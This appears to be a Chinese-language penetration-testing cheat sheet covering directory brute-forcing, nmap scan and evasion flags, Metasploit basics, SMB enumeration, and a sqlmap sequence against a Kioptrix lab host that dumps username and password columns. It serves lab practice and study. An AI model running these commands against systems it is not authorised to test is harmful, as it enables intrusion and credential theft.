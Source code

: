 # 技巧

```bash
#在终端打开文件夹
xdg-open ./
xdg-open ~
```

# 信息收集

## 目录扫描

### dirbuster

`DirBuster`是一款多线程的基于Java的应用程序，字典`/usr/share/dirbuster/wordlists`

```bash
dirbuster -u http://192.168.88.37

apache-user-enum-1.0.txt
apache-user-enum-2.0.txt：用于Apache服务器的用户名列表，用于枚举或猜测Web服务器上的用户账户
directories.jbrofuzz：用于JBroFuzz的字典文件，JBroFuzz是一个用于Web应用程序模糊测试的工具。这个文件可能包含了用于测试的特定目录名称。
directory-list-1.0.txt
directory-list-2.3-medium.txt：包含了大量的目录名称，用于在DirBuster中进行目录枚举。版本号可能表示字典的不同版本或更新。"small,medium,large"
directory-list-2.3-small.txt：这小规模的字典文件，包含了目录名称，用于快速扫描或当怀疑目标网站有较少目录时使用。
directory-list-lowercase-2.3-medium.txt
directory-list-lowercase-2.3-small.txt：所有目录名称都是小写形式。这很重要，因为Web服务器可能对大小写敏感或不敏感，使用小写字典可以确保覆盖所有情况。
```

### dirsearch

### dirb

`dirb`是一个基于C语言开发的Web内容扫描器吗，字典`/usr/share/dirb/wordlists`

```bash
dirb http://192.168.88.34 /usr/share/dirb/wordlists/big.txt
dirb http://192.168.88.34 -X .php 扫描加后缀.php

indexes.txt：包含常见的索引文件名称，如index.html、index.php等，用于查找默认的入口文件。
big.txt：这是一个大型字典文件，包含大量的单词和常见目录名称，用于广泛的目录扫描。
small.txt：这是一个小型字典文件，包含较少的单词和目录名称，适合快速扫描或资源有限的情况。
common.txt：包含一些常见的目录和文件名称，适合初步的目录扫描。
mutations_common.txt：包含单词的各种变体，如单数和复数形式，用于更全面的扫描。
extensions_common.txt：包含常见的文件扩展名，这些扩展名可以附加到字典中的每个单词上，以检查特定类型的文件。

others：这是一个目录，可能包含其他类型的字典文件或自定义字典。
stress：这个目录可能包含用于压力测试的字典文件，用于模拟高负载下的目录扫描。
vulns：包含可能与已知漏洞相关的目录和文件名称，用于查找可能存在安全问题的目录和文件。

catala.txt：包含加泰罗尼亚语的单词和目录名称，用于特定语言环境的扫描。
euskera.txt：包含巴斯克语的单词和目录名称，用于特定语言环境的扫描。
spanish.txt：包含西班牙语的单词和目录名称，用于特定语言环境的扫描。
```

### feroxbuster

```

```



## namp使用

`Nmap（Network Mapper）`是一个流行的网络扫描工具，用于发现主机和服务，并评估网络的安全性。它提供了丰富的功能和选项，可以用于执行各种类型的网络扫描和分析。

```bash
不进行端口扫描
	-sn：#发送Ping请求确定目标是否存活，不探测目标端口。
  -sP：#和-sn差不多，以前使用，推荐使用-sn
  -Pn：#由于其他参数都是先使用ICMP探测存活，再继续探测，有时候目标会禁用ping，所以得加上-Pn
进行端口扫描
  -sS：#发送TCP SYN包，若目标端口开放，主机会返回SYN/ACK包，否则返回RST包。适用于快速扫描，且较隐蔽。
  -sT：#完成TCP三次握手，但较为明显，容易被检测。
  -sF：#发送TCP FIN包，若目标端口关闭，主机会返回RST包。适用于某些防火墙规则绕过。
  -sX：#发送带有FIN URG和PUSH标志的TCP包，若目标端口关闭，主机会返回RST包。适用于某些防火墙规则绕过。
  -sA：#发送TCP ACK包，用于探测防火墙规则和确定是否有状态检测。无法直接判断端口是否开放。
  -sN：#
  -sU：#执行UDP扫描
  -sC：#启用脚本扫描，等同于--script=default
	-p：#指定端口
	-F：#快速有限端口扫描
	-r：#不顺序扫描，常用端口先扫，
服务参数
	-sV： #执行版本检测，尝试识别目标主机上运行的服务的版本信息
操作系统
	-O：
	-A：
	
性能参数
  -T： #设置扫描/攻击级别，-T[1-5]
  --min-rate：#指定扫描速率
  -v： #增加详细程度，显示更多信息
  -vv：#更多详细信息
其他参数
	-oN：#把结果输出为文本
	-oX：#把结果输出为XML
	-oG：#把结果输出为脚本友好格式(.gnmap)
	-oA：#把结果输出为文本、XML、脚本友好格式
	--append-output：#结果追加到文本里面
	--script=：#nmap有NSE脚本，由Lua编写，进行漏洞利用
            auth：用于身份验证相关的脚本
            broadcast：用于网络广播相关的脚本
            brute：用于暴力破解攻击的脚本
            default：默认脚本
            discovery：用于服务和主机发现的脚本
            dos：用于拒绝服务攻击的脚本
            exploit：用于漏洞利用的脚本
            external：使用外部服务的脚本
            fuzzer：用于模糊测试的脚本
            intrusive：可能对目标有侵入性的脚本
            malware：用于检测恶意软件的脚本
            safe：被认为对目标安全的脚本
            version：用于服务版本检测的脚本
            vuln：用于漏洞检测的脚本
```

# Metasploit

```bash
#启动
msfconsole
banner  #查看控制台信息
search []  #搜索漏洞
use []  #使用指定漏洞利用模块
info  #查看所选模块的详细信息
show options  #查看当前模块可配置参数
set []  #配置参数
run 或者 exploit  #执行漏洞利用
```

# sqlmap

## 安装

github:[sqlmap](https://github.com/sqlmapproject/sqlmap)

来自[sqlmap](https://sqlmap.org/)

## 操作

```bash
#探测单个URL
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' --banner
#查看数据库
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' --dbs
#查看某个数据库的表
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' --tables
#查看字段
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' -T 'dev_accounts' --columns
#查看数据
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' -T 'dev_accounts' -C 'username,password' --dump
```

# smb

## enum4linux

```bash
enum4linux -S 192.168.88.30
```

## smbmap

```

```



# netexec


